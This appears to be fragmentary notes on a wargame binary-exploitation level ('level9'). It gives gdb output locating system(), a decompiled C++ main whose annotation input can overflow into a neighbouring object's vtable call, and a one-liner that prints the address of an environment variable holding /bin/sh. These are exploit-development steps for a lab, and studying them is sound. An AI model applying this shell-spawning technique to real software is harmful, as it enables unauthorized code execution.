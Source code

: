 on gdb:


(gdb) b main
Breakpoint 1 at 0x80485f8
(gdb) run
Starting program: /home/user/level9/level9 

Breakpoint 1, 0x080485f8 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7d86060 <system>
\x60\x60\xd8\xb7
/-------------------------------------------------------------/

main disassembly:

    int32_t main(int32_t argc, char** argv, char** envp)

        08048617  if (argc s> 1)
        08048617      int32_t a = operator new(108)
        08048629      N::N(a, 5)
        08048639      int32_t b = operator new(108)
        0804864b      N::N(b, 6)
        0804866a      *(argv + 4)
        08048677      N::setAnnotation(a)
        08048699      return **b(b, a)
        0804860b  _exit(status: 1)
        0804860b  noreturn



There seem to be some class functions for class N
N::N(int)
N::setAnnotation(char*)
N::operator++(N&)
N::operator--(N&)
/-------------------------------------------------------------/

echo 'int main(){printf("%p\n",(void*)getenv("EXPL"));}' > /dev/shm/c.c; gcc /dev/shm/c.c -o /dev/shm/c.out ; export EXPL=/bin/sh; /dev/shm/c.out